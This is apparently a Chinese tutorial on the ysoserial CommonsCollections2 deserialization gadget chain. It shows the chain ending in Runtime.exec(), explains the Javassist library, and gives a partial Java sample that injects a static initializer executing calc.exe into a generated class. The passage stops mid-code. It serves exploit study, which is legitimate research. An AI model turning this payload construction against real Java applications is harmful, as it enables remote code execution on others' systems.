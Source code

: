 ## ysoserial_CommonCollections2_Transformer/TemplatesImpl

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 4.0

### 调用链

```
Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
```

### 基础

#### Javassist

`Javassist`是一个开源的分析、编辑和创建Java字节码的类库；相比ASM，`Javassist`提供了更加简单便捷的API，使用`Javassist`我们可以像写Java代码一样直接插入Java代码片段，让我们不再需要关注Java底层的字节码的和栈操作，仅需要学会如何使用`Javassist`的API即可实现字节码编辑

`Javassist`为我们提供了类似于Java反射机制的API，如：[CtClass](http://www.javassist.org/html/javassist/CtClass.html)，[CtConstructor](http://www.javassist.org/html/javassist/CtConstructor.html)、[CtMethod](http://www.javassist.org/html/javassist/CtMethod.html)、[CtField](http://www.javassist.org/html/javassist/CtField.html)与Java反射的`Class`、`Constructor`、`Method`、`Field`非常的类似。

| 类            | 描述                                                         |
| ------------- | ------------------------------------------------------------ |
| ClassPool     | ClassPool是一个存储CtClass的容器，如果调用`get`方法会搜索并创建一个表示该类的CtClass对象 |
| CtClass       | CtClass表示的是从ClassPool获取的类对象，可对该类就行读写编辑等操作 |
| CtMethod      | 可读写的类方法对象                                           |
| CtConstructor | 可读写的类构造方法对象                                       |
| CtField       | 可读写的类成员变量对象                                       |

该类库的优点在于简单 , 快速 , 直接使用 Java 编码格式就能动态改变类的结构或动态生成类 , 而不需要了解 JVM 指令 ，这里我们主要关注它如何动态更改字节码

```java
import javassist.*;


public class javassit_test {
    public static void createclass() throws Exception {
		//查找系统默认路径( JVM类搜索路径 )来搜索需要的类
        ClassPool pool = ClassPool.getDefault();
        //获取实例对象
        CtClass cc = pool.get(javassit_test.class.getName());
        //执行系统命令，添加内容为完整java源代码，引号要转义
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        //设置类名
        String randomClassName = "Snakin" + System.nanoTime();
        cc.setName(randomClassName);
        // 写入.class 文件
        cc.writeFile();
        //直接获取类并实例化
```